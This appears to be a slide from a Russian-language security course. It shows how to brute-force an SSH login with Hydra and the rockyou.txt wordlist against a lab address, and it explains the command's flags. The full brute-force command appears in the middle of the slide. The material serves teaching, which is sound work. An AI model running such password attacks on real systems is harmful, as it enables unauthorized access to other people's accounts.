

# Рассмотрим следующий пример
Допустим нам известно имя пользователя, и тот факт, что с данного компьютера мы можем подключиться по ssh
$ hydra -f -l kali -P rockyou.txt 10.0.2.15 -s 22 ssh
Здесь флаги:
-f – выход из процесса брутфорса
-l – логин
-P – указывает на файл rockyou.txt, который содержит пароли для перебора
-s – указывает на порт